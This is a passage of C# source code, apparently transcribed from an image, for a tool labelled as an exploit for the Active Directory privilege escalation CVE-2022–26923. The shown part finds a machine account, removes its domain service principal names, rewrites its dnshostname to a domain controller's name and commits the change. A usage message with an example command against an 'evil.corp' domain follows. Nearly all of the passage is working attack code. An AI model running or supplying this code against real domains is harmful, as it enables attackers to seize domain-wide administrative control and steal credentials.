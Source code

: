 ```// Exploit for Active Directory Domain Privilege Escalation (CVE-2022–26923)
                if (result.Properties.Contains("serviceprincipalname"))
                {
                    Console.WriteLine("[*] Found serviceprincipalname");

                    var spnEntries = entryToUpdate.Properties["serviceprincipalname"];
                    int i;

                    Console.WriteLine("[*] Original list:");

                    foreach(var s in spnEntries)
                        Console.WriteLine(s.ToString());

                    for (i=0; i<spnEntries.Count;i++)
                    {
                        //Console.WriteLine(spn.ToString());
                        if (spnEntries[i].ToString().Contains(domain))
                        {
                            Console.WriteLine("[*] Found spn hostname:");
                            Console.WriteLine(spnEntries[i].ToString());
                            spnEntries.Remove(spnEntries[i]);
                        }
                    }

                    Console.WriteLine("\n[*] Removed hostnames complete");

                    Console.WriteLine("[*] New serviceprincipalnames (verify no dns hosts inside):");

                    foreach (var spn in spnEntries)
                        Console.WriteLine(spn.ToString());

                    entryToUpdate.Properties["serviceprincipalname"].Value = spnEntries.Value;

                }

                if (result.Properties.Contains("dnshostname"))
                {
                    Console.WriteLine("[*] Updating dnshostname attribute");
                    var dnsEntry = entryToUpdate.Properties["dnshostname"];
                    dnsEntry.Value = dchost;
                }

                Console.WriteLine("[*] Committing changes");
                entryToUpdate.CommitChanges();
            }
            else
            {
                Console.WriteLine("[!] Object not found");
            }
            entry.Close();
            entry.Dispose();
            mySearcher.Dispose();
        }

        static void Main(string[] args)
        {
            if (args.Length < 3)
            {
                Console.WriteLine("[!] UpdateMachineAccount - @domchell");
                Console.WriteLine("[!] UpdateMachineAccount.exe <Machine CN> <domain fqdn> <machine hostname>");
                Console.WriteLine("[!] Example:\n\nUpdateMachineAccount.exe \"CN=TyrellLaptop,OU=Workstations,DC=evil,DC=corp\" evil.corp dc.evil.corp\n");
```